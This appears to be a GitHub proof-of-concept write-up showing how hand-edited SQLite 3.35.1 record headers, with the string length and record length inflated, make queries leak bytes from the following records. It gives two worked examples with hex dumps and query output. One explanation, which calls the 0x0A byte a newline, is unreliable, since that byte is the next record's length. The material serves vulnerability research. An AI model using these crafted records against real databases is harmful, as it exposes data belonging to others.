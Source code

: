 # Record Leaking

So this is a POC guide for a cool trick I found in sqlite. it's a bit niche, however it does have some imaginable applications. Effectively using maliciously crafted records, you can leak subsequent records. This was a POC done in an older version of sqlite, `3.35.1` (in case you don't believe me). This POC is extremely similar to the one done in the newer version:

```
$    ./sqlite3
SQLite version 3.35.1 2021-03-15 16:53:57
Enter ".help" for usage hints.
```

There will be a brief explanation, followed by two examples of this. For the examples, check in the `examples` file for the db files, along with the executable.


## Example 0

This is going to be a simple example where we just leak 1 byte from the next record's metadata. This is the table we will be working with:

```
sqlite> CREATE TABLE x (y varchar(100), z int);
```

With these records:

```
sqlite> select * from x;
15935728|100
15935728|200
75395128|300
15935728|400
15935728|500
```

Now for this, we will edit the record with the `75395128`. Currently, it has these bytes:

```
0D 03 03 1D 02 37 35 33 39 35 31 32 38 01 2C
```

Which have these specific values:

```
Record Length: 0x0D (13 bytes)
Length of String: 0x08 (((0x1D - 12) / 2), check other pages for explanation)
```

We will change these values to be this:

```
Record Length: 0x0E
Length of String: 0x1F (string length of 9)
```

Which becomes these bytes. So effectively we just extended the string length by one, along with the length of the record:

```
0E 03 03 1F 02 37 35 33 39 35 31 32 38 01 2c
```

Now the records look like this:

```
sqlite> select * from x;
15935728|100
15935728|200
75395128|11277
15935728|400
15935728|500
```

Now the `z` int value for the `75395128` has changed to be `11277`, which in hex is `0x2c0d`. Effectively what we have done is we moved this value over by one byte, so the `0x2c` is the higher byte. Also if we look at the next record over, we see that it starts with `0x0d`, which we are leaking here. The bytes that end this record, and move onto the next look like this:

```
01 2C 0D 02 03
```

The `0x0D` value we are leaking from the next record signifies the size of that record.


## Example 1

For this example, we have this table:

```
sqlite> CREATE TABLE x (y varchar(100));
```

With these records:
```
sqlite> select * from x;
15935728
15935728
75395128
15935728
15935728
```

So for here, we are going to leverage the `75395128` row to leak part of the following row. For that, let's first take a look at the bytes that comprise those records:

```
0A 03 02 1D 37 35 33 39 35 31 32 38
0A 02 02 1D 31 35 39 33 35 37 32 38
```

Now for this, we are simply going to extend the length of the string column, into the next row. I want to leak the `159` from the proceeding row. So we can see that the `159` (`31 35 39`) is `4` bytes away from the end of the string. So to leak those three bytes, we will need to extend the string by `4 + 3 = 7` bytes. As such we will need to increase the size of the record, and the length of the string by seven. So the record length will be `0x11`, and the string length will be `0x0F` (which encoded in sqlite3 format is `0x2B`):


```
11 03 02 2B 37 35 33 39 35 31 32 38
0A 02 02 1D 31 35 39 33 35 37 32 38
```

Now one thing to note, there is a newline character `0x0A` in between them. As such, we should also leak a newline. And when we try running a query, we see that we are getting a record leak:

```
sqlite> select * from x;
15935728
15935728
75395128
159
15935728
15935728
```
